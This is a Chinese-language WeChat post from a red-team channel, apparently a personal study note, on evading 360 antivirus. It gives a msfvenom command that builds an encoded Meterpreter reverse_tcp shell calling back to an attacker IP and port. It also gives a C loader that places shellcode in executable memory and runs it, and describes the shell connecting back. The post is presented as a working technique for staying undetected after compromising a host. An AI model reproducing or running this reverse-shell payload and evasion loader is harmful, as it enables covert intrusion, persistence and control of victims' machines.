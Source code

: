 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/c2yd0-EhK-Bc6raDZ27KXQ)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **43** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不定时更新

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

免杀

在拿到一枚 shell 后，我们必须要做好权限维持，如果目标主机上有 AV 的话，我们一定要做好免杀处理，不能被发现！宁可不攻击也不要被发现，所以免杀是在内网渗透过程中最关键的一步！今天分享一个绕过某 60 的免杀技巧，总结就是：只要会代码，免杀随便绕！

**Metasploit 生成 C 过免杀 360**

**Metasploit**

Msf 相比大家都看过我直接写的笔记，大家也都会使用，这里也不一一细讲，直接上操作：

首先使用 MSF 的 shikata_ga_nai 构建 x86 一个 shellcode：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.12 LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIAVhwqiaWuG5wVyAE60QiaG2hrTOnmfqHPm1BmXEJwsUTB6KGhupQW0ubMJiaNoRScQGia3u42DohBSw/640?wx_fmt=png)

然后使用 VC 编译（我用的是 VC 2019）：

```
#include <stdio.h>
#include <windows.h>

unsigned const char payload[] = "这里是生成的shellcode";

size_t size = 0;

int main(int argc, char** argv) {

    char* code;

    printf("Hello Hack saul!\n");

    code = (char*)VirtualAlloc(NULL, size, MEM_COMMIT,PAGE_EXECUTE_READWRITE);

    memcpy(code, payload, size); 

    ((void(*)())code)();

    return(0);
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIAVhwqiaWuG5wVyAE60QiaG2nnUUQ6ruesd8qHUZVDpm0jyBNfRx4fA7cicnbjUXjaJ17Sr69lMAGCQ/640?wx_fmt=png)

字节可以改改，然后运行上线：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIAVhwqiaWuG5wVyAE60QiaG21P8amiaCq71meD70YKW2joQSsiaFaoxukSCGIkicBAlkHeSmPQJmuZpug/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIAVhwqiaWuG5wVyAE60QiaG2xVtUK12ibmToUFduFTsmLPaSk7y5DaxPlRXSDKIN6mI7sGZY40YUcvw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看